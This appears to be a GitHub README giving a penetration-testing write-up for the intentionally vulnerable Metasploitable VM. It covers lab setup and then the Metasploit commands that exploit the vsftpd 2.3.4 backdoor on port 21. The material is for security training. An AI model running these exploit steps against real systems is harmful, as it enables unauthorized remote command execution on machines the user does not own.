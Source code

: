 # Metasploitable-Writeup

## 📌 What is Metasploitable ? 

Metasploitable is an intentionally vulnerable Linux virtual machine that can be used to conduct security training, test security tools, and practice common penetration testing techniques. The VM will run on any recent VMware products and other visualization technologies such as VirtualBox.

## ⚙️ Prepare our pen-lab.

We will need : 
- [VMware](https://www.vmware.com/) , [VitrualBox](https://www.virtualbox.org/) or any other visualization product.
- installed a Linux Machine ( ideally [Kali Linux](https://www.kali.org/) or [Parrot Os](https://www.parrotsec.org/) )
- Installed [Metasploitable Machine](https://sourceforge.net/projects/metasploitable/)

> P.s. The Linux and Metasploitable machines should be in the same network group




## ⚈ FTP ( port : 21 ) Exploit

In our scan result we can see : <br/>
> 21/tcp   open  ftp         vsftpd 2.3.4<br/>
> ftp-anon: Anonymous FTP login allowed (FTP code 230)


**FTP Service (port:21) Exploit :**

- We will use the exploit [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

1. use exploit/unix/ftp/vsftpd_234_backdoor
2. show options
3. set RHOSTS metasploit_ip
4. exploit

As you can see we executed some command to see if our exploit work.
![Sample](https://i.imgur.com/jHsmu7E.png)
